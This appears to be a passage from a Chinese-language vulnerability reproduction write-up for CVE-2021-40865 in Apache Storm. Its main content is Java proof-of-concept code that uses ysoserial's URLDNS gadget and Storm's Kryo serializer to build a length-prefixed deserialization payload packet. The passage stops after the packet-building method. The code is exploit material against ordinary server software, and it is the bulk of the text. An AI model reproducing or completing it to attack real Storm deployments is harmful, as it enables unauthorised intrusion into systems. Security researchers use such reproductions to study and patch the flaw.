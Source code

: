 ![](8.png)
![](9.png)
## 漏洞复现
```java
import org.apache.storm.serialization.KryoValuesSerializer;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.URLDNS;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.net.*;
import java.util.HashMap;

public class CVE_2021_40865 {

    public static byte[] buffer(KryoValuesSerializer ser, Object obj) throws IOException {
        byte[] payload = ser.serializeObject(obj);
        BigInteger codeInt = BigInteger.valueOf(-600);
        byte[] code = codeInt.toByteArray();
        BigInteger lengthInt = BigInteger.valueOf(payload.length);
        byte[] length = lengthInt.toByteArray();

        ByteArrayOutputStream outputStream = new ByteArrayOutputStream( );
        outputStream.write(code);
        outputStream.write(new byte[] {0, 0});
        outputStream.write(length);
        outputStream.write(payload);
        return outputStream.toByteArray( );
    }
```